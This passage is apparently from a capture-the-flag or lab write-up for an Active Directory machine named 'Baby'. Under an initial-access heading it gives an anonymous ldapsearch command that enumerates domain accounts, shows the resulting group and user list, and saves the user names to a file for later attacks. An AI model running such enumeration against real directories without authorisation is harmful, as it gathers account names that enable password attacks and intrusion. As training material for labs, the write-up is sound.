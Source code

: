 
## 🔱 Initial Access :-

- Enumerate all samAccountName entries from the LDAP server anonymously

```bash
ldapsearch -H ldap://10.10.101.17 -x -b "DC=baby,DC=vl" | grep -i "samaccountname" | awk -F: '{ gsub(/^ +/, "", $2); print $2 }'
```

```bash
Domain Computers
Cert Publishers
Domain Users
Domain Guests
Group Policy Creator Owners
RAS and IAS Servers
Allowed RODC Password Replication Group
Denied RODC Password Replication Group
Enterprise Read-only Domain Controllers
Cloneable Domain Controllers
Protected Users
DnsAdmins
DnsUpdateProxy
dev
it
Guest
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
```

Save all the user name in a file.

`user.txt`

```bash
dev
it
Guest
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
```
